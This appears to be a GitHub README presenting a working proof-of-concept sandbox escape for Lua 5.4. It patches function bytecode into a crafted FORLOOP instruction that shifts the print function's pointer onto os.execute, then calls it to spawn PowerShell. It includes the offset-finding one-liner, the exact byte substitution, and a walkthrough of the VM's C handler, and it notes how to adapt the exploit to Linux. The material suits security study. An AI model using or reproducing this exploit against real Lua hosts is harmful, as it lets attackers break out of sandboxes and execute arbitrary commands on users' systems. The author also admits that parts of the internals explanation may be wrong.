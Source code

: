 # Lua 5.4(.4) malicious bytecode sandbox escape
This is a simple proof-of-concept script that will execute PowerShell on a Windows 10 system.

This can be adapted to work for Linux by changing the offset and argument.

Note that using this may not work for you, as you will have to get the difference between `os.execute` and `print`.
For unmodified Lua, this is as simple as running:

```lua
print(tonumber(tostring(os.execute):match("(0x%x+)")) - tonumber(tostring(print):match("(0x%x+)")))
```

For something like a modified version where you do not have access to `os.execute`, or the addresses of functions are not printed, you may have to disassemble it and find the offsets.

If you do not have access to `load`, or `load` cannot run bytecode, or `os.execute` is completely removed from the binary, this will not work. 

# How it works (script)
Note that this is a pretty basic example of how it works, and I don't really know the deep internals of the Lua VM, so some stuff may not make sense.

### Step by step execution:
* We create a useless function, which only reorders the registers for the instruction that we will modify. This function contains the instruction `LOADI 5 1234` (load integer 1234 into register 5), so we can easily spot it and replace it.
```lua
local victim = function(input, increment)
    -- Reorder registers for the FORLOOP instruction
    local o, f, i = input, 1, increment

    -- This instruction (LOADI 5 1234) will be replaced with FORLOOP 1 0.
    local repl = 1234
    return o
end
```
* We dump the bytecode of the function, and replace the instruction with our target instruction, `FORLOOP 1 0` (iterate the for loop and jump back 0 instructions (probably))
```lua
local bytecode = string.dump(victim):gsub
    ("\129\130\104\130" --[[ LOADI 5 1234 ]],
     "\73\1\0\0"        --[[ FORLOOP 1 0 ]])
```
* We load the malicious bytecode into a new function, and call it with `print`, and the offset.
```lua
local malicious = load(bytecode)
local target = malicious(print, 0x11110000) -- example offset, will return the function with address of print + 0x11110000
```
* Using the internals for the `FORLOOP` instruction, our target will have it's pointer incremented, and then returned to us.
```lua
-- (example addresses)
print(print)        --> function: 0x12340000
print(os.execute)   --> function: 0x23450000
-- The difference between os.execute and print is 0x11110000 bytes.
print(target)       --> function: 0x23450000
```
* Call the returned function with our arguments (`powershell`). This will spawn a shell.
```lua
target("powershell") --> will spawn powershell
```
# How it works (low-level C)
This block of code handles the `FORLOOP` instruction:
```c
vmcase(OP_FORLOOP) {
    if (ttisinteger(s2v(ra + 2))) {  /* integer loop? */
        lua_Unsigned count = l_castS2U(ivalue(s2v(ra + 1)));
        if (count > 0) {  /* still more iterations? */
            lua_Integer step = ivalue(s2v(ra + 2));
            lua_Integer idx = ivalue(s2v(ra));  /* internal index */
            chgivalue(s2v(ra + 1), count - 1);  /* update counter */
            idx = intop(+, idx, step);  /* add step to index */
            chgivalue(s2v(ra), idx);  /* update internal index */
            setivalue(s2v(ra + 3), idx);  /* and control variable */
            pc -= GETARG_Bx(i);  /* jump back */
        }
    }
    else if (floatforloop(ra))  /* float loop */
        pc -= GETARG_Bx(i);  /* jump back */
    updatetrap(ci);  /* allows a signal to break the loop */
    vmbreak;
}
```
### Notes:
* some stuff probably isn't true as I don't know how it works deep down
* `ra` = 1, first argument of the `FORLOOP` instruction (`FORLOOP 1 0`)
* `GETARG_Bx(i)` = 0, second argument of the `FORLOOP` instruction
* registers `ra` through `ra + 2` are considered internal, but we manipulated the bytecode, so we can modify them. `ra + 3` is the actual counter that you can read in Lua.
* All registers are read as integers, as the `FORPREP` instruction checks that they should be integers (or floats, but the VM thinks we are in a integer loop), and you can only have the `FORLOOP` instruction inside a `FORPREP` statement.

### Step by step execution:
* The code checks if we are in an integer loop. Since we are, we enter the integer loop block.
```c
if (ttisinteger(s2v(ra + 2))) {  /* integer loop? */
```
* Then, the VM reads from register `ra + 1`, which is the amount of iterations left.
```c
    lua_Unsigned count = l_castS2U(ivalue(s2v(ra + 1)));
```
* The VM checks if the amount is greater than 0. Since we put 1 into it, we continue into the block.
```c
    if (count > 0) {  /* still more iterations? */
```
* The step value is read from register `ra + 2`. This is the `increment` variable in the function. In our function, we put this as the offset.
```c
        lua_Integer step = ivalue(s2v(ra + 2));
```
* The index value is read from register `ra`. This is the `input` variable in the function. In our function, we put this as the `print` function.
```c
        lua_Integer idx = ivalue(s2v(ra));  /* internal index */
```
* The code then decrements the amount of iterations left. This prevents an infinite loop.
```c
        chgivalue(s2v(ra + 1), count - 1);  /* update counter */
```
* Next, the index is incremented by the step. This means that our function pointer will be incremented by the offset.
```c
        idx = intop(+, idx, step);  /* add step to index */
```
* The new index is both written to the internal index, and the real index value. Since the internal index value is only **changed**, and not **set**, the type does not change into an integer. (for performance)
```c
        chgivalue(s2v(ra), idx);  /* update internal index */
        setivalue(s2v(ra + 3), idx);  /* and control variable */
```
* The PC jumps back 0 instructions. This puts us back into the same instruction, but since the count is now 0, the instruction does not run.
```c
        pc -= GETARG_Bx(i);  /* jump back */
    }
}
```
* The internal index is now the address we want for our instruction, and we can call it.